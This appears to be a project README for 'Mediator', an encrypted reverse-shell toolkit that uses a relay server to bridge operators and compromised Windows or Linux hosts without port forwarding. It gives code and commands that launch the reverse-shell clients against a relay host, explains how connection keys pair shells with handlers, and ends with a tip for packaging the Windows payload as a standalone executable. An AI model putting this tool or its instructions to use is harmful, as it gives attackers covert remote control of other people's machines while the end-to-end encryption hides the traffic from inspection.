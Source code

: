 # Mediator

Mediator is an end-to-end encrypted reverse shell that doesn't require port forwarding for the handler.

## Architecture:

Inspired by end-to-end encrypted chat applications, this reverse shell takes a unique approach to the client/server model of a reverse shell. This reverse shell uses:

1. A client reverse shell
2. A client handler/operator
3. A server that bridges the two connections

Reverse shells and handlers connect to the mediator server with a connection key. The server queues clients according to their respective type and connection key. When both a reverse shell and an operator connect to the server with the same key, the server will bridge the two connections. From there, a key exchange is done between the two clients, and all communication between the reverse shell and operator is encrypted end-to-end. This ensures the server cannot snoop on the streams it is piping.

## Instructions:

### Server

The client scripts can be run on Windows or Linux, but you'll need to stand up the server ([mediator.py](mediator.py)) on a Linux host. You can either run the server script with

```bash
$ python3 mediator.py
```

or you can build a Docker image with the provided [Dockerfile](Dockerfile) and run it in a container (make sure to publish ports 20000 and 20001).

### Clients

Both clients accept arguments for the server address and connection key.

**Mediator server address**

For *python script* usage, the address of the mediator host is required upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com")
operator.run()
```

*WindowsRShell class*
```python
from windowsTarget import WindowsRShell

shell = WindowsRShell(mediatorHost="example.com")
shell.run()
```

If executing a client *directly from a shell*, you can either hard code the address at the bottom of the script, or the server address can be specified as an argument with a `-s` or `--server` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com
```

**Connection key**

When two handlers or two reverse shells connect to the mediator server with the same connection key, only the first connection is queued awaiting its match. Until the queued connection either times out (15 seconds) or matches with a counterpart connection, all other clients of the same type trying to connect with the same connection key will be dropped.

It is important to make sure each handler is using a unique connection key to avoid a race condition resulting in the wrong operator being given a shell. The default connection key is "CHANGE ME!!!".

To change the connection key for *python script* usage, the connection key can optionally be supplied upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com", connectionKey="This is my secret key!")
operator.run()
```

*LinuxRShell class*
```python
from linuxTarget import LinuxRShell

shell = LinuxRShell(mediatorHost="example.com", connectionKey="This is my secret key!")
shell.run()
```

REMINDER: handlers and reverse shells will not be bridged together unless they connect to the mediator server using the same connection key within 15 seconds of each other.

## Extra Info:

- You can easily create an exe for windowsTarget.py with pyinstaller using the `--onefile` flag

